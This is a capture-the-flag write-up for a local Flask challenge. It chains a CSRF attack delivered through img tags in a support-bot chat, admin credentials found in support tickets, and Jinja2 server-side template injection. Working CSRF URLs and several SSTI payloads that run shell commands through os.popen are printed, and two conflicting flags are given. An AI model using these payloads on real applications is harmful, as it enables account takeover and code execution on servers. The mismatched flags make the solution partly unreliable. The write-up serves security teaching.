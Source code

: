 # EvilCorp Support CTF - Complete Writeup

## Challenge Overview

This is a multi-stage web application security CTF challenge that demonstrates the chaining of three critical vulnerabilities:
1. **CSRF (Cross-Site Request Forgery)** on password change endpoint
2. **Credential Discovery** through support ticket system
3. **SSTI (Server-Side Template Injection)** for flag retrieval

**Target**: Read the flag from `flag.txt`
**Flag**: `ctf{hello_there}`

---

## Step-by-Step Solution

### Step 1: Initial Setup and Reconnaissance

1. **Start the application**:
   ```bash
   sudo docker build -t evilcorp .
   sudo docker run -p 5000:5000 evilcorp
   ```

2. **Access the application** at `http://localhost:5000`

3. **Register a new user account**:
   - Navigate to `/register`
   - Username: `attacker`
   - Password: `password123`

4. **Login** with your credentials and explore the dashboard

5. **Identify the chat interface** - this is where we'll launch our attack

---

### Step 2: CSRF Attack on Support User

**Vulnerability**: The `/account/change_password` endpoint accepts GET requests without CSRF protection and changes the password of whoever is currently logged in.

**Attack Vector**: The support bot processes HTML content in chat messages and makes authenticated requests to URLs found in `<img>` tags.

#### CSRF Payload

Send the following message through the chat interface:

```html
Hey support, I'm having issues with my account. Can you help me reset my password? Here's a screenshot of the error I'm getting: <img src="http://127.0.0.1:5000/account/change_password?new=hacked123&confirm=hacked123" width="1" height="1" alt="Error Screenshot">
```

**What happens**:
1. You send this message to the support chat
2. The support bot processes the HTML content (rendered with `|safe` filter)
3. The bot makes an authenticated GET request to the malicious URL
4. The support user's password gets changed to `hacked123`

**Alternative CSRF payloads** (if the first doesn't work):
```html
Support, please check this image: <img src="http://localhost:5000/account/change_password?new=pwned&confirm=pwned">

Having trouble with login, see: <img src="http://172.17.0.2:5000/account/change_password?password=newpass&confirm_password=newpass">
```

---

### Step 3: Login as Support User

1. **Logout** from your current account
2. **Login as support user**:
   - Username: `support`
   - Password: `hacked123` (the password we set via CSRF)

3. **Verify access** - you should now see support-specific menu options

---

### Step 4: Credential Discovery

**Objective**: Find admin credentials hidden in the support ticket system.

1. **Navigate to** `/support/tickets`

2. **Search for critical tickets**:
   - The system contains ~3000 tickets
   - Only 3 are marked as "critical" severity
   - One critical ticket contains admin credentials

3. **Automated search approach**:
   - It is highly recommended to use automated crawler, and then parse it's output, to complete the challenge in time constraints of the CTF event.

---

### Step 5: Login as Admin User

1. **Logout** from the support account
2. **Login as admin**:
   - Username: `admin`
   - Password: `SynthAdm1n!2025` (found in the critical ticket)

3. **Access admin panel** at `/admin`

---

### Step 6: Server-Side Template Injection (SSTI)

**Vulnerability**: The admin "Template Preview" feature uses `render_template_string()` without input sanitization, allowing arbitrary code execution.

#### SSTI Payload

In the admin panel template field, enter one of these payloads:

**Primary payload** (reads flag.txt directly):
```jinja2
{{ self.__init__.__globals__.__builtins__['open']('flag.txt').read() }}
```

**Alternative payloads**:

```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}
```

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].popen('cat flag.txt').read() }}
```

```jinja2
{{ lipsum.__globals__['os'].popen('cat flag.txt').read() }}
```

**For file listing** (if you need to explore):
```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('ls -la').read() }}
```

**Result**: The flag `ctf{hello_there}` will be displayed in the rendered output.

---

## Additional Notes

- The support bot automatically responds to messages and processes HTML content
- Multiple SSTI payloads work due to Python's introspection capabilities
- This challenge demonstrates real-world attack chaining techniques

**Flag**: `binary_xor{ch4113ng3_f0r_n3w_g3n_0f_h4ck3r5}`